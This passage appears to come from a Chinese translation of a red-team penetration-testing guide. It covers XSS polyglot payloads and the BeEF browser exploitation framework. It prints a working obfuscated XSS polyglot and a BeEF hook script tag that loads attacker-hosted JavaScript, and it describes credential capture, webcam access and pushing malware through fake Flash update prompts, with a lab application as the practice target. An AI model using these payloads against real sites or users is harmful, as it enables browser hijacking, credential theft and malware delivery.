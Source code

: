 最后一种类型的 payload 称为 [Polyglot](http://bit.ly/2GXxqxH)。Polyglot payload 采用许多不同类型的 payload 和混淆技术，并将它们编译成一次攻击。这适用于想使用自动脚本查找 XSS、时间有限的的漏洞赏金项目，或者仅仅想要快速发现输入验证存在哪些问题等情况。

因此，我们可以像（ http://bit.ly/2GXxqxH ）这样构建一个 Polyglot，而不是普通的 `<script>alert(1)</script>`：
```
/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

如果你看一下上面的 payload,此攻击试图不使用尖括号，点和斜线的传统攻击代码；执行 onclick XSS；关闭多个标签；最后尝试一个 onload XSS。这些类型的攻击使 Polyglots 在识别 XSS 方面非常有效和高效。你可以在此处阅读有关这些 Polyglot XSS 的更多信息：https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot 。

如果你想测试和使用不同的 polyglots，可以从易受攻击的 XSS 页面（ http://chat:3000/xss ）或整个聊天应用程序开始。

**BeEF**

浏览器漏洞利用框架（ http://beefproject.com/ ）或简称 BeEF 将 XSS 攻击提升到另一个层次。此工具将 JavaScript payload 注入受害者的浏览器，该浏览器会感染用户的系统。这会在受害者的浏览器上创建一个 C2通道，用于 JavaScript 后期利用。

对红队来说，BeEF 是一个很好的工具，可用于入侵活动，跟踪用户，捕获凭据，执行点击劫持，使用 Tabna 进行攻击等等。如果不在攻击期间使用，BeEF 也是一个很好的工具，可以展示 XSS 漏洞的强大功能。这也有助于更复杂的攻击，我们将在后面的 Blind XSS 小节下讨论。

BeEF 分为两部分：一部分是服务器，另一部分是攻击 payload。要启动服务器：

在你的攻击者 Kali 主机上启动 BeEF
* 打开终端
    * beef-xss
* 使用 beef：beef
* 查看 http://127.0.0.1:3000/hook.js
* 完整 payload 文件：
    * `<script src="http://<Your IP>:3000/hook.js"></script>`


查看位于 http://127.0.0.1:3000/hook.js 上的 hook.js 文件，你应该会看到类似于长混淆的 JavaScript 文件的内容。这是连接受害者返回命令和控制服务器的客户端 payload 。

一旦在目标应用程序上识别出 XSS，而不是原始的 alert(1) 样式的 payload，就可以修改 `<script src ="http://<YourIP>:3000/hook.js"></script>` payload 来利用此漏洞。一旦你的受害者陷入此 XSS 陷阱，将导致他们的浏览器连接回你这边并成为你的僵尸网络的一部分。

BeEF 支持哪些类型的后渗透攻击？一旦你的受害者受到你的控制，你就可以做任何 JavaScript 可以做的事情。你可以通过 HTLM5打开相机并拍摄受害者的照片，你可以在屏幕上显示覆盖图以捕获凭据，也可以将其重定向到恶意网站以执行恶意软件。

以下是 BeEF 从 XSS 攻击中引发大量问题的快速演示：

首先，确保你的 BeEF 服务器在攻击者计算机上运行。在我们的易受攻击的聊天支持系统的应用程序中，你可以访问 http://chat:3000/xss 并在练习2的字段中输入你的 payload：
* `<script src="http://127.0.0.1:3000/hook.js"></script>`

一旦你的受害者连接到你的僵尸网络，你就可以完全控制他们的浏览器。你可以根据设备，浏览器和目标机器启用的功能进行各种攻击。通过社会工程学演示 XSS 影响力的一个好方法是通过 Flash 更新提示将恶意软件推送到他们的计算机。

![](../images/chapter_3/3-8.png)
